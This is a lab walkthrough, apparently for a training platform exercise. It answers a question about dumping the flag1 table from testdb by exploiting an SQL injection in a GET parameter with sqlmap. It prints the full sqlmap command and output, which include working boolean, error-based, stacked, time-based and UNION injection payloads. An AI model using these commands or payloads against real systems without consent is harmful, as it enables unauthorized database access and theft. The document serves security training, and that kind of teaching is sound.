


## Exercises

### Question 1 — What's the contents of table flag1 in the testdb database? (Case #1)

Landed on Case #1, titled "Case1 - GET parameter," which said it detects and exploits an SQLi vulnerability in the GET parameter `id`.



Clicked through to `case1.php?id=1`, then used the browser dev tools Network panel's Copy as cURL feature to grab the request.



The question's hint pointed to specifying the database and table name directly for efficiency, so `-D testdb` and `-T flag1` were supplied from the start, alongside the `*` marker for the injection point:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://154.57.164.70:43778/case1.php?id=1*' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.70:43778/case1.php' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
--batch --dump -T flag1 -D testdb --flush-session

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.10.9#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:41:59 /2026-10-22/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[14:41:59] [INFO] flushing session file
[14:41:59] [INFO] testing connection to the target URL
[14:41:59] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:41:59] [INFO] testing if the target URL content is stable
[14:41:59] [INFO] target URL content is stable
[14:41:59] [INFO] testing if URI parameter '#1*' is dynamic
[14:41:59] [INFO] URI parameter '#1*' appears to be dynamic
[14:41:59] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be SQL injectable (possible DBMS: 'MySQL')
[14:41:59] [INFO] heuristic (XSS) test shows that URI parameter '#1*' might be vulnerable to cross-site scripting (XSS) attacks
[14:41:59] [INFO] testing for SQL injection on URI parameter '#1*'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[14:41:59] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:42:00] [WARNING] reflective value(s) found and filtering out
[14:42:00] [INFO] URI parameter '#1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Rice")
[14:42:00] [INFO] testing 'Generic inline queries'
[14:42:00] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[14:42:00] [WARNING] potential permission problems detected ('command denied')
[14:42:00] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[14:42:00] [INFO] testing 'MySQL >= 8.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UUID_TO_BIN)'
[14:42:00] [INFO] testing 'MySQL >= 8.0 OR error-based - WHERE or HAVING clause (UUID_TO_BIN)'
[14:42:00] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[14:42:00] [INFO] URI parameter '#1*' is 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)' injectable 
[14:42:00] [INFO] testing 'MySQL inline queries'
[14:42:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[14:42:00] [WARNING] time-based comparison requires larger statistical model, please wait............... (done)                                                                                                                            
[14:42:11] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 stacked queries (comment)' injectable 
[14:42:11] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:42:21] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[14:42:21] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:42:21] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:42:21] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:42:21] [INFO] target URL appears to have 6 columns in query
[14:42:21] [INFO] URI parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 43 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://154.57.164.70:43778/case1.php?id=1 AND 1466=1466

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: http://154.57.164.70:43778/case1.php?id=1 AND EXTRACTVALUE(8739,CONCAT(0x5c,0x716b767a71,(SELECT (ELT(8739=8739,1))),0x716a787671))

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://154.57.164.70:43778/case1.php?id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://154.57.164.70:43778/case1.php?id=1 AND (SELECT 3138 FROM (SELECT(!SLEEP(5)))VPYz)

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: http://154.57.164.70:43778/case1.php?id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716b767a71,0x77727359555648674c6c6d4e57797957625a5256425241587a6a79526d74497976466e4d61515a53,0x716a787671),NULL-- -
---
[14:42:21] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[14:42:21] [INFO] fetching columns for table 'flag1' in database 'testdb'
[14:42:21] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:42:22] [INFO] retrieved: 'id'
[14:42:22] [INFO] retrieved: 'int(11)'
[14:42:22] [INFO] retrieved: 'content'
[14:42:22] [INFO] retrieved: 'varchar(512)'
[14:42:22] [INFO] fetching entries for table 'flag1' in database 'testdb'
[14:42:22] [INFO] retrieved: '—REDACTED—'
[14:42:22] [INFO] retrieved: '1'
Database: testdb
Table: flag1
[1 entry]
+----+------------+
| id | content    |
+----+------------+
| 1  | —REDACTED— |
+----+------------+

[14:42:22] [INFO] table 'testdb.flag1' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.70/dump/testdb/flag1.csv'
[14:42:22] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.70'

[*] ending @ 14:42:22 /2026-10-22/
```

**Breakdown:**

- `sqlmap` invokes the tool
- `'http://154.57.164.70:43778/case1.php?id=1*'` is the target URL, with `*` marking the injection point directly after `1`
- `-H '...'` flags replicate the headers the browser originally sent
- `--batch` skips every interactive prompt by automatically choosing the default option
- `--dump` dumps the content of the specified table
- `-T flag1` specifies the `flag1` table
- `-D testdb` specifies the `testdb` database directly, so SQLMap doesn't need to first enumerate the current database name before dumping
- `--flush-session` discards any previously stored session data for this target, forcing a fresh run

As a whole, supplying both `-T` and `-D` up front meant SQLMap skipped the current-database lookup step seen in earlier cases and went straight from confirming the injection to fetching `flag1`'s columns and entries.

SQLMap found the `id` parameter injectable via boolean-based blind, error-based, stacked queries, time-based blind and UNION query techniques, fingerprinted the back end as MySQL >= 5.1 (MariaDB fork) on Debian 10 with Apache 2.4.38, and dumped `flag1` directly from the specified database and table.

**Answer:** `—REDACTED—`